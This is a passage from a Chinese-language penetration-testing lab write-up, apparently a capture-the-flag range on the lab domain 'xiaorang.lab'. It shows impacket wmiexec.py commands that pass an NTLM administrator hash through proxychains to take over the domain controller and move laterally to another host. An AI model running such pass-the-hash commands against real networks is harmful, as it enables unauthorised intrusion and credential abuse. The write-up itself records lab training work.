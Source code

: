 得到域控哈希

```plain
proxychains python3 '/root/Desktop/impacket-master12/examples/wmiexec.py'  xiaorang.lab/administrator@172.22.61.17 -hashes aad3b435b51404eeaad3b435b51404ee:e26a28fd9daa8a6a4d3c5adbbdcb0f53
```

拿下域控

[![](assets/1708919820-886338913b2d7457d435ddf922261327.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215025006-de8ddca0-cb69-1.png)

## 第一关

```plain
请测试暴露在公网上的 Web 应用的安全性，并尝试获取目标数据库权限。
```

我们已经拿下域控直接横向过去就好

```plain
proxychains python3 '/root/Desktop/impacket-master/examples/wmiexec.py'  xiaorang.lab/administrator@172.22.61.50 -hashes aad3b435b51404eeaad3b435b51404ee:e26a28fd9daa8a6a4d3c5adbbdcb0f53
```

[![](assets/1708919820-a18865f37ae307f1ea47e40dc2491b6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215025011-e2036940-cb69-1.png)
